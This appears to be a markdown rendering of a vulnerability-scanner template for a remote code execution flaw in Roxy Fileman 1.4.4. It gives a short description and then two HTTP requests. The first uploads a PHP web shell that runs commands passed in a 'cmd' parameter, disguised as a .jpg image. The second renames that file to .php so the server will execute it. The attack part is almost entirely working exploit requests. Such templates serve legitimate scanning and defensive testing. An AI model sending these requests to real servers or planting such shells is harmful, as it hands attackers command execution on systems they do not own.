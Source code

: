 ## Description

- Roxy Fileman 1.4.4 is susceptible to remote code execution via the FORBIDDEN_UPLOADS setting, which is checked when renaming an existing file to a new file extension. An attacker can bypass this check and rename already uploaded files to any extension using the move function, which does not perform any checks.

- severity - high
- tags - intrusive,misconfig,edb,roxy,fileman,rce,fileupload

## Requests

### Step - 1

```
POST /php/upload.php HTTP/1.1
Host: {{Hostname}}
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary6rbEqFAMRkE0RAB7

------WebKitFormBoundary6rbEqFAMRkE0RAB7
Content-Disposition: form-data; name="action"

upload
------WebKitFormBoundary6rbEqFAMRkE0RAB7
Content-Disposition: form-data; name="method"

ajax
------WebKitFormBoundary6rbEqFAMRkE0RAB7
Content-Disposition: form-data; name="d"

/app/Uploads
------WebKitFormBoundary6rbEqFAMRkE0RAB7
Content-Disposition: form-data; name="files[]"; filename="{{randstr}}.jpg"
Content-Type: image/jpeg

<?php
echo exec($_GET["cmd"]);
?>

------WebKitFormBoundary6rbEqFAMRkE0RAB7--

```

### Step - 2

```
POST /php/renamefile.php?f=%2Fapp%2FUploads%2F{{randstr}}.jpg&n={{randstr}}.php HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest

f=%2Fapp%2FUploads%2F{{randstr}}.jpg&n={{randstr}}.php

```
